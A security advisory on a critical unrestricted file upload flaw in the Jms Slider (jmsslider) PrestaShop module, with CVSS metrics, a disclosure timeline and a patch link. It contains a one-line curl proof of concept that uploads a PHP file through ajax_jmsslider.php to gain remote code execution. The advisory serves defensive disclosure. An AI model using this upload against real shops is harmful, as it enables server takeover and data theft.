```yaml
---
layout: post
title: "Unrestricted upload vulnerability in Jms Slider (jmsslider) PrestaShop module"
categories: modules
author:
- Creabilis.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop"
severity: "critical (9.8)"
---
```


The module Jms Slider (jmsslider) from Joommasters contains an unrestricted upload of file with dangerous type vulnerability.
This module is for the PrestaShop e-commerce platform and mainly provided with joo masters PrestaShop themes

## Summary

* **CVE ID**: Awaiting from MITRE.org
* **Published at**: 2023-03-01
* **Advisory source**: Joomasters
* **Vendor**: PrestaShop
* **Product**: jmsslider
* **Impacted release**: at least 1.6.0
* **Product author**: Joommasters
* **Weakness**: [CWE-434](https://cwe.mitre.org/data/definitions/434.html)
* **Severity**: critical (9.8)

## Description

ajax_jmsslider.php can be called anonymously to upload a php file that can be used for RCE.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Possible malicious usage

* Obtain admin access
* Remove data on the associated PrestaShop
* Steal datas

## Proof of concept

```bash
curl -v -F "data_image=@test.php" "https://preprod.XXX/modules/jmsslider/ajax_jmsslider.php?secure_key=VALUE_AVAILABLE_ON_FRONTOFFICE&action=addLayer&data_type=image&id_slide=99999"
```

## Patch
Provided by the editor
https://www.joommasters.com/index.php/blog/tutorials-and-case-studies/how-to-fix-security-bug-of-slider-security-breach-of-theme.html

## Timeline

| Date | Action |
|--|--|
| 2019-09-04 | Vulnerability publish by the editor |
| 2023-02-17 | Contact the author |
| 2023-03-xx | Publish this security advisory |

## Other recommandations

None

## Links

* [Joom masters web site](https://www.joommasters.com/)
* [Joom masters blog post on the vulnerability](https://www.joommasters.com/index.php/blog/tutorials-and-case-studies/how-to-fix-security-bug-of-slider-security-breach-of-theme.html)
